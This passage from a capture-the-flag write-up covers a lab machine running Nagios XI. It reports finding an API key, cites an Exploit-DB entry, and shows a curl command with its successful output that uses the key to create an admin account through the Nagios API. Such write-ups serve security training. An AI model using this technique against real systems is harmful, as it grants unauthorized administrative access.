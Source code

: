 We find credentials for nagiosadmin. We failed to crack the password hash, but we got the API key.

And searching the internet we found this exploit.

[https://www.exploit-db.com/exploits/44969](https://www.exploit-db.com/exploits/44969)


## FOOTHOLD

With the exploit we will be able to create admin user.

```shell
labadmin@labmachine:~/monitored$ curl -k --silent 'http://nagios.monitored.htb/nagiosxi/api/v1/system/user&apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL' --data 'username=duser&pa
ssword=qwerQWER1234!@#$&name=USER&email=user@localhost&auth_level=admin'
{"success":"User account duser was added successfully!","user_id":7}
```

After login in we need to acknowledge user agreements and after that update the password.

![monitored8](./assets/monitored8.png)
